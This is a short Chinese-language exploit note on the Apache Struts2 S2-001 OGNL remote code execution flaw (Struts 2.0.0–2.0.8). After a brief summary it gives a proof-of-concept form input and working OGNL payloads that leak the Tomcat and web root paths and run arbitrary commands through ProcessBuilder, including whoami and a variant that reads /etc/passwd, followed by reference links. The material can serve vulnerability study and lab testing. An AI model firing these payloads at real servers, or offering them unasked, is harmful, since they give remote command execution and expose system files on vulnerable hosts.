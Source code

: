 # 漏洞摘要
```
官方链接：https://cwiki.apache.org/confluence/display/WW/S2-001
官方概述：Remote code exploit on form validation error
影响版本：Struts 2.0.0 - Struts 2.0.8
修复摘要：数据 re-display 时禁止执行 OGNL 表达式
```

# 漏洞利用
### POC:
```
username=xishir&password=%{1+1}
```
![](https://www.codemonster.cn/img/s2/s2-001-2.png)

### EXP:
获取tomcat执行路径：
```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取Web路径：
```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行任意命令：
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
带参数的命令：`new java.lang.String[]{"cat","/etc/passwd"}`
![](https://www.codemonster.cn/img/s2/s2-001-3.png)

# 参考链接
[https://cwiki.apache.org/confluence/display/WW/S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)
[http://rickgray.me/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/review-struts2-remote-command-execution-vulnerabilities.html)
[https://github.com/vulhub/vulhub/tree/master/struts2/s2-001](https://github.com/vulhub/vulhub/tree/master/struts2/s2-001)
[https://chybeta.github.io/2018/02/06/【struts2-命令-代码执行漏洞分析系列】S2-001/](https://chybeta.github.io/2018/02/06/【struts2-命令-代码执行漏洞分析系列】S2-001/)
